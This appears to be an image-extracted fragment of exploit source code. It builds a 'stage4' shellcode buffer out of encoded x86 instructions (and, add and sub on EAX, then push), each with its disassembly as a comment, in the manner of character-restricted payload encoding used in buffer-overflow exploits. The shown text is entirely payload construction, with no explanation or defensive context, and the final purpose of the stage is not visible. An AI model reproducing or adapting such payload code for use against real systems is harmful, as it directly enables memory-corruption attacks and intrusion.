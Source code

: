 ```
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x22\x46\x11\x43" ## add  eax, 0x43114622
stage4 += "\x05\x12\x35\x22\x33" ## add  eax, 0x33223512
stage4 += "\x05\x22\x33\x11\x33" ## add  eax, 0x33113322
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x27\x34\x65\x20" ## add  eax, 0x20653427
stage4 += "\x05\x17\x44\x55\x10" ## add  eax, 0x10554417
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x43\x66\x27\x44" ## add  eax, 0x44276643
stage4 += "\x05\x43\x66\x16\x44" ## add  eax, 0x44166643
stage4 += "\x05\x42\x44\x25\x34" ## add  eax, 0x34254442
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x33\x27\x73\x36" ## add  eax, 0x36732733
stage4 += "\x05\x42\x17\x72\x46" ## add  eax, 0x46721742
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x63\x60\x17\x62" ## add  eax, 0x62176063
stage4 += "\x05\x62\x50\x17\x52" ## add  eax, 0x52175062
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x11\x23\x33\x34" ## add  eax, 0x34332311
stage4 += "\x05\x12\x22\x33\x24" ## add  eax, 0x24332212
stage4 += "\x05\x11\x22\x22\x23" ## add  eax, 0x23222211
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x32\x31\x15\x33" ## add  eax, 0x33153132
stage4 += "\x05\x22\x30\x15\x34" ## add  eax, 0x34153022
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x34\x53\x61\x73" ## add  eax, 0x73615334
stage4 += "\x05\x44\x44\x61\x62" ## add  eax, 0x62614444
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x21\x02\x62\x65" ## add  eax, 0x65620221
stage4 += "\x05\x11\x02\x52\x64" ## add  eax, 0x64520211
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x37\x25\x70\x06" ## add  eax, 0x06702537
stage4 += "\x05\x26\x25\x60\x06" ## add  eax, 0x06602526
stage4 += "\x50"                 ## push eax
stage4 += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
stage4 += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
stage4 += "\x05\x62\x76\x33\x32" ## add  eax, 0x32337662
stage4 += "\x05\x51\x65\x33\x31" ## add  eax, 0x31336551
stage4 += "\x05\x62\x53\x33\x22" ## add  eax, 0x22335362
stage4 += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
stage4 += "\x50"                 ## push eax
```